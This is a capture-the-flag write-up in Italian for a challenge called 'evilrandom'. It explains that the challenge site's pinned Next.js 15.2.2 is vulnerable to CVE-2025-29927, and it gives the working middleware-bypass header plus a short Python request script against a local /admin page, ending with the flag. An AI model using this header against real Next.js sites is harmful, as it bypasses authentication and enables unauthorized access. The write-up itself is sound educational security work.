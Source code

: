# Evil Random (`evilrandom`)

La challenge espone un sito web che 'genera' parole casuali estraendole da un file di testo, scritta con `next.js`.

Analizzando attentamente il progetto non si trovano problemi evidenti, ed in effetti la vulnerabilità **non** si trova nel codice.
Il problema è proprio la versione utilizzata di `next.js`, la `15.2.2`.
```
{
  "name": "evilrandom",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev --turbopack",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "cookie": "^1.0.2",
    "next": "15.2.2",
    "react": "^19.0.0",
    "react-dom": "^19.0.0"
  }
}

```

Questa versione è vulnerabile a [CVE-2025-29927](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) (scoperto circa 3 mesi fa).
Per accorgersene ci sono diversi modi, quello più semplice è provare a buildare con `npm` il progetto in locale:

![vuln](vuln.png)

E riconoscere la vulnerabilità con `npm audit`.

![audit](audit.png)

A questo punto sappiamo che il CVE ci permette di **bypassare** l'autenticazione del **middleware**, e di accedere alla pagina dell'admin, dove c'è la flag.
Per farlo si trovano diverse guide online, ma sostanzialmente l'exploit si basa sull'utilizzo scorretto di un header `x-middleware-subrequest`, che avrebbe l'intento di evitare richieste ricorsive infinite fatte dal middleware, skippandolo quando ce ne sono più di 5 (più dettagli [qua](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)).


A questo punto, basterà fare una richiesta con questo header e 5 "finte" richieste:
`"x-middleware-subrequest" : "middleware:middleware:middleware:middleware:middleware"`

```python
import requests
h = "middleware:middleware:middleware:middleware:middleware"
r = requests.get("http://localhost:8003/admin", headers={"x-middleware-subrequest": h}, allow_redirects=False)
print(r.text)
```

Flag: `rossiCTF{m1dDl3W4r3_Byp4Ss_h3ll_y3ahHh!!_7dc19f}`